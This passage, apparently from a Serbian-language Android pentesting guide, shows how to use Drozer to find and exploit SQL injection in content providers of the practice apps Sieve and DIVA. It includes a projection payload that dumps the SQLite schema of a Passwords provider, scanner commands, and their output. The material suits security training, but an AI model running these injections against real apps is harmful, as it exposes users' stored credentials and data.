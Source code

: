 ```
dz> run app.provider.query content://com.mwr.example.sieve.DBContentProvider/Passwords/ --projection "*
FROM SQLITE_MASTER WHERE type='table';--"
| type  | name             | tbl_name         | rootpage | sql              |
| table | android_metadata | android_metadata | 3        | CREATE TABLE ... |
| table | Passwords        | Passwords        | 4        | CREATE TABLE ... |
```

**Automatsko otkrivanje SQLInjection napada pomoću Drozera**

Drozer je moćan alat za testiranje sigurnosti Android aplikacija koji omogućava automatsko otkrivanje ranjivosti SQLInjection. Ova tehnika omogućava napadaču da izvrši zlonamerni SQL kod na bazi podataka aplikacije, što može dovesti do neovlašćenog pristupa ili otkrivanja osetljivih informacija.

Da biste automatski otkrili SQLInjection ranjivosti pomoću Drozera, sledite sledeće korake:

1. Instalirajte Drozer na svom uređaju ili emulatoru.
2. Pokrenite Drozer i povežite se sa ciljnom aplikacijom.
3. Izvršite sledeću komandu da biste pronašli Content Providere u aplikaciji:

```
run app.provider.find
```

4. Pregledajte rezultate i pronađite Content Providere koji prihvataju korisnički unos.
5. Izvršite sledeću komandu da biste testirali ranjivost SQLInjection na odabranom Content Provideru:

```
run scanner.provider.injection --authority <authority> --uri <uri>
```

Zamenite `<authority>` sa autoritetom Content Providera i `<uri>` sa URI-om Content Providera koji želite da testirate.

Drozer će automatski testirati Content Provider za ranjivosti SQLInjection i prikazati rezultate. Ako se pronađe ranjivost, napadač može iskoristiti ovu ranjivost za izvršavanje zlonamernog SQL koda i dobijanje neovlašćenog pristupa ili otkrivanje osetljivih informacija.

Važno je napomenuti da je ova tehnika namenjena samo za testiranje sigurnosti i treba je koristiti samo sa dozvolom vlasnika aplikacije. Neovlašćeno korišćenje ove tehnike može biti protivzakonito i podleže pravnim sankcijama.

```
dz> run scanner.provider.injection -a com.mwr.example.sieve
Scanning com.mwr.example.sieve...
Injection in Projection:
content://com.mwr.example.sieve.DBContentProvider/Keys/
content://com.mwr.example.sieve.DBContentProvider/Passwords
content://com.mwr.example.sieve.DBContentProvider/Passwords/
Injection in Selection:
content://com.mwr.example.sieve.DBContentProvider/Keys/
content://com.mwr.example.sieve.DBContentProvider/Passwords
content://com.mwr.example.sieve.DBContentProvider/Passwords/

dz> run scanner.provider.sqltables -a jakhar.aseem.diva
Scanning jakhar.aseem.diva...
Accessible tables for uri content://jakhar.aseem.diva.provider.notesprovider/notes/:
android_metadata
notes
sqlite_sequence
```
